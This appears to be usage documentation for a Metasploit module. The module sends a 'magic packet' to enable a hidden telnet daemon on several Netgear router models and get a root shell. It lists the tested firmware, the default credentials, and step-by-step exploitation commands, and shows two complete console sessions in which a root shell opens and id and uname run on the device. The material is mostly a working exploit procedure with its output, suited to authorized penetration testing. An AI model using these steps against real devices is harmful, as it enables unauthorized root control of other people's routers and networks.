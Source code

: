 ## Introduction

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console).

This module has been successfully tested against:

 - AC1450 - unknown older firmware (TCP)
 - AC1450 - latest firmware: V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 - firmware: V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

If you are the root user, you can skip this step. ARP will be leveraged
to find the MAC address.

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

You can leave this blank if you're root.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`, which is usually unchanged from `Gearguy`.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

You can leave this blank to use the default username.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`, which is usually unchanged from `Geardog`.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

You can leave this blank to use the default password.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]``` if not running as root
6. ```exploit```
7. Enjoy a root shell!

## Usage

### AC1450

As a normal user:

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=2.04 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2.041/2.041/2.041/0.000 ms
msf5 exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf5 exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.3:34833 -> 192.168.1.1:23) at 2018-03-02 19:26:25 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

As root:

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
rmsf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address [redacted]
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.2:37771 -> 192.168.1.1:23) at 2018-03-02 19:33:42 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```
